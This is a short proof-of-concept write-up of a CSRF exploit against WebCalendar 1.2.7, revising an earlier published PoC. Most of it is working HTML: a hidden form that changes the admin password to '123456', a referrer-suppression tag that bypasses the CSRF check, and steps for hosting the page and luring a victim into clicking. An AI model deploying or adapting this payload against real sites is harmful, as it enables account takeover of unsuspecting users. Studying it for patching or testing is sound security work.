



POC: Exploit Vulnerability
Complete POCWith this POC if an user click on our malicious link, the password will be changed to a new one of our choice
Note that the original POC code of @hyp3rlinx has some bugs (
link)
1) Note there is no 'submit' button or any direct way for the user to send the POST
2) The password boxes are filled in. We certainly don't want our victim to see those!
3) Bug in the HTML5 referer setting. The 'meta-name="referrer"' content value should be set to "no-referrer" instead of "none"
 The code below has the bug of before solved:
 here the code
<meta name="referrer" content="no-referrer">
<form id="CSRF" method="POST" action="https://example.org/webcalendar/edit_user_handler.php">
<input type="hidden" name="formtype" value="setpassword">
<input type="hidden" name="user" value="admin">
<input type="hidden" name="upassword1" id="newpass1" type="password" value="123456">
<input type="hidden" name="upassword2" id="newpass2" type="password" value="123456">
</form>
<button onclick="document.getElementById('CSRF').submit()">Submit</button>
Save this POC as html file and upload on a WebApplication on our under control, send the link to a victim user.
When the user will open the page will see:
And if he click submit the user admin's password has been changed to ‘123456’
Bibliography:
•
https://packetstormsecurity.com/files/137762/WebCalendar-1.2.7-CSRF-Bypass.html•
http://hyp3rlinx.altervista.org/advisories/WEBCALENDAR-V1.2.7-CSRF-PROTECTION-BYPASS.txt